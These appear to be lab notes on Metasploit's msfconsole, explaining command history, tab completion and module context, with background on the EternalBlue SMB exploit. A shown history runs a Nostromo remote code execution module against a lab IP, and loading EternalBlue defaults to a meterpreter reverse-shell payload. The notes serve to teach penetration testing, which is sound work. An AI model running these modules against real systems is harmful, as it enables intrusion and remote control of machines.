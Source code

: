 * Use the history command to see commands typed earlier.

msf6 > history

1 use exploit/multi/http/nostromo\_code\_exec

2 set lhost 10.10.16.17

3 set rport 80

4 options

5 set rhosts 10.10.29.187

6 run

7 exit

8 exit -y

9 version

10 use exploit/multi/script/web\_delivery

* Important feature of msfconsole is the support of tab completion.
  * Start typing he and press the tab key and it auto-completes to help.
* Msfconsole is managed by context.
  * All parameter settings will be lost if the module is changed unless set as a global variable.
* Once you type the use exploit/windows/smb/ms17\_010\_eternalblue command, you will see the command line prompt change from msf6 to “msf6 exploit(windows/smb/ms17\_010\_eternalblue)”.

'EternalBlue' is an exploit allegedly developed by the U.S. National Security Agency (N.S.A.) for a vulnerability affecting the SMBv1 server on numerous Windows systems. The SMB (Server Message Block) is widely used in Windows networks for file sharing and even for sending files to printers. EternalBlue was leaked by the cybercriminal group "Shadow Brokers" in April 2017. In May 2017, this vulnerability was exploited worldwide in the WannaCry ransomware attack.

msf6 > use exploit/windows/smb/ms17\_010\_eternalblue

\[\*] No payload configured, defaulting to windows/x64/meterpreter/reverse\_tcp

msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

* Module to be used can also be selected with the use command followed by the number at the beginning of the search result line.
* Can still run the commands previously mentioned while the prompt has changed.
  * Did not 'enter' a folder as would be typically expected in an OS command line.

msf6 exploit(windows/smb/ms17\_010\_eternalblue) > ls

\[\*] exec: ls

burpsuite\_community\_linux\_v2021\_8\_1.sh Instructions Scripts

Desktop Pictures thinclient\_drives

Downloads Postman Tools

msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

* Prompt now advises that a context is set in which to work.
  * Verify this by typing the show options command.
  * This will print options related to the chosen exploit.
  * Can be used in any context followed by a module type (auxiliary, payload, exploit, etc.) to list available modules.
    * Will list all modules if used from the msfconsole prompt.
* Leave the context using the back command.
